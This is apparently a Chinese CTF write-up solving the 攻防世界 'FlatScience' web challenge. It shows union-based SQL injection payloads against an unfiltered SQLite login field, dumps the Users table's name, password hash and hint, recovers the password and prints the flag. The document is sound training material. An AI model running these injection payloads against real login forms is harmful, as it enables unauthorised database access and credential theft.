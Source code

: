 # 原创
：  【攻防世界WEB】难度四星12分进阶题：FlatScience

# 【攻防世界WEB】难度四星12分进阶题：FlatScience

## 二、FlatScience

> 

 

<h3>解题方法：</h3>
1、理解源码，数据库注入，加解密


> 
<h3>过程：</h3>
还是先喜欢看robots.txt文件

/admin.php界面

/login.php界面

<hr/>
 Ctrl+U打开源码
发现了?debug

 发现了新源码

<hr/>
开始进行代码审计
发现数据库为SQLite3（与MySQL有一点区别，sqlite_master表中存着相关信息`）`
type/name/tbl_name/rootpage/sql记录着用户创建表时的相关信息
且注释符为--

还发现输入的usr存在注入
没有任何过滤，能够拼接进数据库中执行

<hr/>
 使用bp拦截，并进行注入
（在bp中注入）

 判断字段数
1' order by 3 --
（报错）

 1' order by 2 --
（回显正常）

所以字段数为2
<hr/>
判断回显
1' union select 1,2 --
回显位为第二位
<img alt="" height="561" src="https://img-blog.csdnimg.cn/7556e231b76b45b282cb19d1c2f77e7f.png" width="1200"/> 
<hr/>
查sql表中字段

 CREATE+TABLE+Users%28id+int+primary+key%2Cname+varchar%28255%29%2Cpassword+varchar%28255%29%2Chint+varchar%28255%29%29
 解码后<img alt="" height="477" src="https://img-blog.csdnimg.cn/4221f4b224bb449fa593ff073c7449eb.png" width="1200"/>
 CREATE+TABLE+Users(id+int+primary+key,name+varchar(255),password+varchar(255),hint+varchar(255))
字段有：id name password hint
<hr/>
构造查询name
payload：
1' union select id, name from Users--

 admin
<hr/>

构造查询password
payload：
1' union select id, password from Users--

3fab54a50e770d830c0416df817567662a9dc85c
<hr/>
构造查询hint
payload：
1' union select id, hint from Users--

 my+fav+word+in+my+fav+paper%3F%21
解码后
my+fav+word+in+my+fav+paper?!
<hr/>
我们就得到了表中第一个数据
id=1
name=admin
password=3fab54a50e770d830c0416df817567662a9dc85c（MD5是消息摘要加密，可能会解不出来）
hint=my+fav+word+in+my+fav+paper?!（说的就是在他的论文里面）

<img alt="" height="470" src="https://img-blog.csdnimg.cn/51b1cae73a44405b82d0f308f3fd7d09.png" width="1009"/> 
解密出来了为
ThinJerboaSalz!
<hr/>
那个词为Salz
ThinJerboaSalz!减去Salz
所以密码为ThinJerboa
<hr/>
在/admin.php页面进行登录


flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?} 



---


---


---


---


---


---

